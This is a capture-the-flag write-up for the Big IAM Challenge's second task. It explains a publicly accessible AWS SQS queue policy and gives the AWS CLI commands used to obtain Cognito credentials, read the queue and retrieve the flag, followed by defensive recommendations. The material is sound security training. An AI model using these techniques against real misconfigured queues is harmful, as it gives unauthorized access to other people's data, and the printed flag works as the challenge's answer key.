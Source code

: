 ## Big IAM Challenge: Challenge 2 Writeup

### Challenge Number 2

### Challenge Statement
The goal of this challenge was to capture the flag by identifying and exploiting overly permissive IAM policies related to AWS SQS (Simple Queue Service). Participants needed to analyze the policy, obtain temporary credentials, interact with the SQS queue using the AWS CLI, and retrieve the flag from a message in the queue.

### IAM Policy
```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": "*",
            "Action": [
                "sqs:SendMessage",
                "sqs:ReceiveMessage"
            ],
            "Resource": "arn:aws:sqs:us-east-1:092297851374:wiz-tbic-analytics-sqs-queue-ca7a1b2"
        }
    ]
}
```

### Short Analysis of the IAM Policy
- What do I have access to?
  - The policy allows anyone (`Principal: "*"`) to send messages (`sqs:SendMessage`) and receive messages (`sqs:ReceiveMessage`) from the specified SQS queue.
- What don't I have access to?
  - Other actions like deleting the queue, purging messages, or modifying queue attributes are not permitted.
- What is interesting?
  - The queue is publicly accessible, meaning anyone can send and receive messages, which could lead to unauthorized access.

### Solution
#### Step 1: Obtain Identity Information
To verify permissions, I attempted to retrieve caller identity:
```sh
aws sts get-caller-identity --profile challenge2
```
This resulted in an error:
```
The config profile (challenge2) could not be found
```

#### Step 2: Configure AWS Profile
Since the profile was missing, I configured it manually:
```sh
aws configure --profile challenge2
```
The system prompted for credentials:
```
AWS Access Key ID [None]: <entered access key>
AWS Secret Access Key [None]: <entered secret key>
Default region name [None]: us-east-1
Default output format [None]: json
```

#### Step 3: Retrieve Temporary Credentials
Using Amazon Cognito, I obtained temporary credentials:
```sh
aws cognito-identity get-id --identity-pool-id "us-east-1:c6f3eb2e-3cb5-404e-93bc-f0bdf7ad042e"
```
I then retrieved credentials for the identity:
```sh
aws cognito-identity get-credentials-for-identity --identity-id "us-east-1:9ea8f9af-f687-439b-951d-0e83653f6be7"
```

#### Step 4: Verify Permissions
With the temporary credentials, I verified the caller identity again:
```sh
aws sts get-caller-identity --profile challenge2
```
This time, it returned an ARN confirming our authenticated identity.

#### Step 5: Send a Message to the Queue
I used the following command to send a test message:
```sh
aws sqs send-message --queue-url https://sqs.us-east-1.amazonaws.com/092297851374/wiz-tbic-analytics-sqs-queue-ca7a1b2 --message-body "Hello, World" --profile challenge2 --region us-east-1
```

#### Step 6: Receive the Message Containing the Flag
Next, retrieved the message from the queue:
```sh
aws sqs receive-message --queue-url https://sqs.us-east-1.amazonaws.com/092297851374/wiz-tbic-analytics-sqs-queue-ca7a1b2 --profile challenge2 --region us-east-1
```
This response contained a JSON message body with a URL:
```json
{
    "Body": "{\"URL\": \"https://tbic-wiz-analytics-bucket-b44867f.s3.amazonaws.com/pAXCWLa6ql.html\"}"
}
```

#### Step 7: Access the URL to Retrieve the Flag
Navigate to the provided URL:
```
https://tbic-wiz-analytics-bucket-b44867f.s3.amazonaws.com/pAXCWLa6ql.html
```
Inside the HTML file, we found the flag:
```
{wiz:you-are-at-the-front-of-the-queue}
```

### Step 8: Submit the Flag
After submitting the flag in the challenge portal, it shows success thats how I successfully completed Challenge 2.

### Reflection
- Approach:
  - I analyzed the IAM policy, obtained temporary credentials, interacted with the queue, and retrieved the flag.
- Challenges:
  - The missing AWS profile and access denial when listing queues.
- How I overcame challenges:
  - Manually configuring the profile and directly targeting the queue using the queue URL.
- Breakthrough:
  - Realizing that even without listing queues, we could still interact with a known queue.

### Defensive Recommendations
- Avoid overly permissive IAM policies (e.g., `Principal: "*"`).
- Restrict access to trusted IAM users and roles.
- Encrypt sensitive data to prevent exposure.
- Regularly audit IAM policies and remove unnecessary permissions.
- Use least privilege principles when assigning permissions.

This concludes the writeup for Challenge 2 in The Big IAM Challenge!

